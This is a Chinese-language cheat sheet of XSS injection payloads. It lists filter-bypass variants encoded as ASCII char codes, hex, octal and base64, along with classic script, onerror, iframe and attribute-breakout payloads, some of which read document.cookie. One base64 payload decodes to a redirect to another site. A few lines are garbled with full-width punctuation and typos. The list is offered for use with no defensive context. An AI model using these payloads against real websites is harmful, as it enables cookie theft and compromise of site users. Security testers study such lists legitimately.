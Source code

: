 
XSS注入常用语句（整理）

```html

首先输入 

```
< > ' " = : ; 
```
查看这些东西有什么是被过滤了的符号或者替换了
```

**Ascii码绕过**
<img src="a" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

**hex绕过**

<img src=a onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

**八进制**

<img src=a onerror=alert('\170\163\163')>

**base64绕过**
<img src="a" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

```
<img src=x onerror=alert(0)>

alert（document.domain）" location 。href = " javascript：alert（document.domain）"

"onclick=alert(1)"

<script>alert('xss');</script> //经典语句，哈哈！

>"'><img src="javascript:alert('XSS')">

;
'><a hret="javascr&#x69pt:alert(1)">

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>
